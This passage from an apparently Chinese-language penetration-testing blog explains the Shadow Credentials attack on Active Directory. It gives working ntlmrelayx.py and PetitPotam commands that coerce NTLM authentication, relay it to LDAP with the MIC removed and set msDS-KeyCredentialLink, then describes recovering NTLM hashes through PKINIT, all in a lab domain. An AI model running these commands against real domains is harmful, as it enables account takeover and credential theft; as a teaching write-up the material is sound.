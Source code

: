 影子凭证技术也已由 Charlie Bromberg（[@_nwodtuhs](https://twitter.com/_nwodtuhs)）实现到了 Impacket 套件的 ntlmrelayx.py 脚本中。攻击可以与 [PetitPotam](https://github.com/topotam/PetitPotam)、[printerbug](https://github.com/leechristensen/SpoolSample) 或 [ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce) 等强制身份验证结合使用，通过 NTLM Relay To LDAP/LDAPs 来为客户端设置 `msDS-KeyCredentialLink`。

但需要注意的是，使用强制身份验证方法执行该技术有一个限制。因为将身份验证从 SMB 中继到 LDAP 将自动触发 LDAP 签名。因此，一种方法是通过 HTTP 等替代协议中继身份验证，另一种是借助 CVE-2019-1040 漏洞（`--remove-mic`）来消除签名的限制，这里我们采用后者。

此外，如果我们要为域控制器账户设置 `msDS-KeyCredentialLink`，我们不能强制域控制器发起认证请求，再将该请求直接中继回域控自身。因为微软早在 KB957097 补丁中，就通过修改 SMB 身份验证答复的验证方式，防止了同一机器从 SMB 协议到 SMB 协议的中继。因此，在这里我们将 `--shadow-target` 的目标设为了另一台域内主机  `WIN2016-WEB1$`，如下图所示。

```bash
python3 ntlmrelayx.py -t ldap://dc01.pentest.com --remove-mic --shadow-credentials --shadow-target win2016-web1\$
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220503161924169.png)

然后通过 PetitPotam 强制 `WIN2016-WEB1$` 对攻击机发起 NTLM 认证，如下图所示。

```bash
python3 PetitPotam.py -d pentest.com -u marcus -p Marcus\@123 172.26.10.134 win2016-web1.pentest.com
```

![](/assets/posts/2022-04-27-shadow-credentials/image-20220503162109978.png)

Ntlmrelayx.py 会负责将 `WIN2016-WEB1$` 机器账户的认证请求中继到域控制器上的 LDAP，然后为 `WIN2016-WEB1$` 账户添加 `msDS-KeyCredentialLink`。攻击成功后，ntlmrelayx.py 将给出后续 PKINITtools 的利用命令，如下图所示。

![](/assets/posts/2022-04-27-shadow-credentials/image-20220503162506937.png)

## What About NTLM?

PKINIT 允许 WHfB 用户或更传统的智能卡用户执行 Kerberos 身份验证并获得 TGT。但是，如果他们访问需要 NTLM 身份验证的资源该怎么办呢？为了解决这个问题，Microsoft 在 MS-PKCA（Microsoft 的 Kerberos PKINIT 技术规范）的 “1.4 Relationship to Other Protocols” 部分中指出：

> *“In order to support NTLM authentication [MS-NLMP] for applications connecting to network services that do not support Kerberos authentication, when PKCA is used, the KDC returns the user’s NTLM one-way function (OWF) in the privilege attribute certificate (PAC) PAC_CREDENTIAL_INFO buffer”*

也就是说，当进行 Kerberos PKINIT 身份验证的时候，返回的票据的 PAC 里面包含用户的 NTLM 凭据。获取这个 NTLM 凭据涉及解密 PAC_CREDENTIAL_DATA 结构，Benjamin Delpy 早在 2016 年就已经在 Kekeo 和 Mimikatz 中实现了这一点。相关细节请参考我之前的博客 [*Attack Surface Mining For AD CS*](https://whoamianony.top/posts/attack-surface-mining-for-ad-cs/) 中的 “0.4.5 NTLM Credential Theft via PKINIT – THEFT5” 部分。

## Ending......

参考文献：

> https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab
>
> https://pentestlab.blog/2022/02/07/shadow-credentials/
